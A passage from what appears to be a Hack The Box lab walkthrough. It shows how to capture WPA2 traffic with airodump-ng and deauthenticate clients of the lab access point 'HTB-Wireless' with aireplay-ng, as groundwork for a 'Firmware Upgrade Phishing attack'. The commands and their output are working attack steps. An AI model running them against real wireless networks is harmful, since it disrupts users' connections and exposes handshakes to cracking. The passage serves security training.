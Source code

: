 Now, students need to use `airodump-ng` to scan for wireless networks, providing the `-w` option to save the scan results.

Code: shell

```shell
sudo airodump-ng wlan0mon -w HTB -c 1
```

```
wifi@twins:~$ sudo airodump-ng wlan0mon -w HTB -c 1

17:15:04  Created capture file "HTB-01.cap".

 CH  1 ][ Elapsed: 30 s ][ 2025-03-06 17:15 ]
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28   0      461      123    0   1   54   WPA2 TKIP   PSK  HTB-Wireless                                                                                                                      

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 52:CD:8C:79:AD:87  02:00:00:00:01:00  -29   54 -54      0       90                                                                                                                                               
 (not associated)   02:00:00:00:03:00  -49    0 - 1      0        2                                                                                                                                               
 (not associated)   02:00:00:00:04:00  -49    0 - 1      0        2    
```

To execute the Firmware Upgrade Phishing attack effectively, a valid handshake of the victim's Wi-Fi network is needed. Therefore, students need to open a new terminal tab, and subsequently use `aireplay-ng` to deauthenticate the `HTB-Wireless` access point.

Code: shell

```shell
sudo aireplay-ng --deauth 5 -a 52:CD:8C:79:AD:87 wlan0mon
```

```
wifi@twins:~$ sudo aireplay-ng --deauth 5 -a 52:CD:8C:79:AD:87 wlan0mon

17:18:50  Waiting for beacon frame (BSSID: 52:CD:8C:79:AD:87) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
17:18:51  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
17:18:51  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
17:18:52  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
17:18:52  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
17:18:52  Sending DeAuth (code 7) to broadcast -- BSSID: [52:CD:8C:79:AD:87]
```
